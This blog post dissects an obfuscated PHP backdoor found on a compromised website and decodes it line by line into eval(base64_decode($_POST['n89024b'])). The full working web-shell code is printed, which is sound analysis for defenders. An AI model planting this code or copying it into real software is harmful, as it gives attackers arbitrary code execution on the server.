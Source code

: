 ```yaml
---
layout: post
title: Anatomy of a PHP Hack
tags:
- PHP
- security
---
```

It's hard to come up with a title for this - but - basically I found some rogue code the other day that I thought was pretty interesting. I was fixing a "hacked" website when I came across the source of the symptoms of the hack.  One file had the following code in it:

```php?start_inline=1
$zgjv56 = "o_esb4da6ctp" ; 
$fzba02= strtolower( $zgjv56[4].$zgjv56[7].$zgjv56[3].$zgjv56[2] . $zgjv56[8].$zgjv56[5].$zgjv56[1] . $zgjv56[6]. $zgjv56[2].$zgjv56[9].$zgjv56[0].$zgjv56[6].$zgjv56[2] );
$gfc4 =strtoupper ( $zgjv56[1]. $zgjv56[11].$zgjv56[0]. $zgjv56[3].$zgjv56[10] ) ; 
if( isset( ${ $gfc4 }['n89024b' ] )){
    eval( $fzba02 (${$gfc4 } [ 'n89024b' ] )) ;
}
```

This obfuscated code is doing something bad, but we don't know what at first glance.  Obviously, the solution is to remove it - but - aren't you a little curious what it was doing?  Let's take a look.

First, the `$zgjv56` variable has unique letters and numbers and an underscore.  It looks like `$fzba02` is created by picking out various offsets (remember, you can access a character of a PHP string in the same manner as you might query an array index).   It's weird that it's calling `strtolower()` though - because all the values are lower.  So, let's figure out what the value of `$fzba02` actually is.

> Important note: When you're testing PHP code that you're unsure of, run it in a sandboxed virtual machine that has no access to the internet or your local device.

```
php > $zgjv56 = "o_esb4da6ctp";
php > $fzba02= strtolower( $zgjv56[4].$zgjv56[7].$zgjv56[3].$zgjv56[2] . $zgjv56[8].$zgjv56[5].$zgjv56[1] . $zgjv56[6]. $zgjv56[2].$zgjv56[9].$zgjv56[0].$zgjv56[6].$zgjv56[2] );
php > echo $fzba02;
base64_decode
```

Ah - so the variable is the value `base64_decode` - nice.  

> Why random variable names and why `base64_decode`? The random variable names make it harder to understand what the code is doing. It's like the difference between using `$counter` and `$c` - one is more obvious than the other.  The base 64 encoding is done most likely for a weak obfuscation attempt again.

The next line creates another variable based off of our initial string - let's check it out:

```
php > $gfc4 =strtoupper ( $zgjv56[1]. $zgjv56[11].$zgjv56[0]. $zgjv56[3].$zgjv56[10] ) ;
php > echo $gfc4;
_POST
```

So, this variable is targeting the magic/global PHP variable `$_POST` - ok - I'm starting to get a picture of what we may figure out next.  There is something that will be base 64 encoded and posted to this script.

This PHP line gives us the indicator of what wakes up the script:

```php?start_inline=1
if( isset( ${ $gfc4 }['n89024b' ] )){

// translates to:
if (isset($_POST['n89024b'])) {
```

Again, a random variable/string in `n89024b` - but this says - if there is a post request to this page using the variable `n89024b` - we should do something.  That variable name is very likely not to be picked by the main application - so it's safe for this script to accept/intercept those values and do it's task.

```php?start_inline=1
eval( $fzba02 (${$gfc4 } [ 'n89024b' ] )) ;

// translates to
eval(base64_decode($_POST['n89024b']));
```

Whenever you see `eval()` you should be afraid - but what is this really doing?  Its basically taking anything that is posted in a base 64 encoding with a specific variable and executing it directly in the context of this script.  This obfuscated script indicates that the user of this basically had free reign to run anything on the server at any time.  The easy fix is removing this code - the hard part is figuring out what / if they used this for other nefarious purposes on your server.
